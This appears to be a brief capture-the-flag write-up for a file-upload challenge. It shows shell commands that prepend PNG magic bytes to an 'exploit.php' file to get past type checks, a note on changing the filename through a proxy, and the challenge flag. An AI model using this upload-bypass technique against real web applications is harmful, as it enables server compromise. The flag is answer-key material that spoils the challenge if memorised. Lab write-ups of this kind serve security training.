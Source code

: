 # Tool

```bash
sudo apt install bless
```

# Trick

```
head -c 20 file.png > magic.png
cat magic.png exploit.php
cat magic.png exploit.php > xploit.php
```

Intercept filename input with proxy

# Flag

```
qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
```